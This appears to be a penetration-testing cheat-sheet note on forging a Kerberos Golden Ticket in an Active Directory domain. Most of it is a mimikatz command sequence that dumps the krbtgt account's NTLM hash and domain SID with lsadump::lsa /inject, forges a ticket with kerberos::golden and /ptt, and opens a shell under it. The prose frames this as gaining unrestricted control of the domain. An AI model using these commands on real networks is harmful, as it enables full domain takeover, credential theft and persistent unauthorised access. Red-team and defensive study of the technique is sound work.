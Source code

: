 -- -
This is taking over the Kerberos Ticket Granting Ticket #krbtgt, which is the service that grants tickets to every resource and service in the domain, so you are creating a ticket that has access to anything on the domain, meaning we can use it to do whatever we want on the domain. 
#### Requirements
1. #krbtgt NTLM hash
2. Domain SID
#### mimikatz
```powershell
privilege::debug

# dump hashes and info for krbtgt account
# looking for:
# 1) domain SID
# 2) NTLM Hash
lsadump::lsa /inject /name:krbtgt 

# Generate Golden Ticket
# User field can be whatever you want it to be, made up account or real
kerberos::golden /User:<username> /domain:<domain> /sid:<domain SID> /krbtgt:<krbtgt NTLM hash> /id:500 /ptt

# Golden ticket will be generated and applied to the current session i.e the current shell session, so drop into a shell to use it:
misc::cmd
```